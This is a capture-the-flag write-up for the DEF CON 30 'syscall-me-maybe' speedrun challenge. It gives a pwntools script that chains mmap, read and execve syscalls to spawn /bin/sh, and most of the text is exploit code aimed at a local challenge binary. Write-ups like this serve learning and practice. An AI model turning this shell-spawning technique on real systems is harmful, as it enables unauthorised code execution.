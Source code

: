 # defcon30 speedrun - syscall-me-maybe

after a quick look you see the challenge get a value and save in rdi, then rsi, rdx, r10, r8 and r9, then ask you about your syscall number.

![Screenshot_2022-09-02_23_46_22](https://user-images.githubusercontent.com/83473054/188107346-0f0837e8-e640-4325-bd4b-db9ebcf4894a.png)

I did checksec on this bin file
pie is enabled.

## exploit
```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')

```

in above code I loaded the elf file and make gdb ready for debugging stuff. then we must create a new mapping in the virtual address space for bypassing the PIE.

```python

PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))
```
I did mmap above, you could read about mmap

now we have a rwx part in the memory wich starts at 0x1000000, we are able to write our "/bin/sh" string there

```python
p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)
```

now we have "/bin/sh" in the memory and for mmap stuff we know where it's located.

```python
p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```

and above code is execve.


## full exploit

```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')


PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20


p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))

p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)

p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```
